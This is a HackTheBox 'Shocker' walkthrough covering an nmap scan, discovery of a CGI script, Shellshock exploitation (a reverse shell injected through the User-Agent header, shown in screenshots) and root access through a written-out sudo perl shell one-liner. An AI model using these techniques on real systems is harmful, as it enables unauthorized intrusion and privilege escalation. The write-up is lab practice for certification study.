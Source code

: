 ```yaml
---
title: HackTheBox - Shocker
date: 2020-12-23 13:32:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, dirb, cgi-bin, shellshock, CVE-2014-6271, metasploit, meterpreter, GTFOBins, writeup, oscp-prep]
image: https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/shocker/shocker.png
---
```


## Foothold

### `nmap` scan

```bash
$  nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Shocker-full-port-scan.txt 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.099s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp  open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
53649/tcp filtered unknown
```

### Apache/2.4.18 (port 80) 

![dont-bug-me](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/shocker/dont-bug-me.png)

![dirb](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/shocker/dirb.png)

Seeing that there is a `/cgi-bin directory`, the webserver is probably vulnerable to Shellstock bash RCE.

> **Shellshock bash remote code execution vulnerability**: affects web servers utilizing **CGI** (**C**ommon **G**ateway **I**nterface) &rarr;  a system for generating dynamic web content. Directories such as `/cgi-sys`, `/cgi-mod`, `/cgi-bin` can be found.

Adding `-X .sh` to `dirb`, we found a [user.sh](http://10.10.10.56/cgi-bin/user.sh) file:

![user-sh](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/shocker/user-sh.png)

![user-sh-content](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/shocker/user-sh-content.png)


We can have a shell via `metasploit`:

![shellshock](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/shocker/shellshock.png)

![meterpreter](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/shocker/meterpreter.png)

However, since I do this box to get ready for **OSCP**, I want to exploit this vuln manually. Via `curl` or from `burp`, I replace `User-agent`'s content by a **reverse shell** payload:

![burp-1](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/shocker/burp-1.png)

First we've got the following error: `/bin/bash: bash: Nu such file or directory`.

So I replace `bash` by `/bin/bash` and it worked:

![burp-2](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/shocker/burp-2.png)

## User (shelly)

Flag:

![user-flag](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/shocker/user-flag.png)

We can run `perl` with sudo:

![sudo -l](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/shocker/sudo-l.png)

Let's check [GTFObins](https://gtfobins.github.io/gtfobins/perl/) privesc:

![gtfoperl](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/shocker/gtfoperl.png)

## Root

```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
cat root.txt 
9be1ed1fbbe0c3319f9cc05dbcdb7941
```

___

## Useful links

- [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271#vulnCurrentDescriptionTitle)
- [Exploit Shellshock on a Web Server Using Metasploit](https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/)
- [GTFObins](https://gtfobins.github.io/gtfobins/perl/)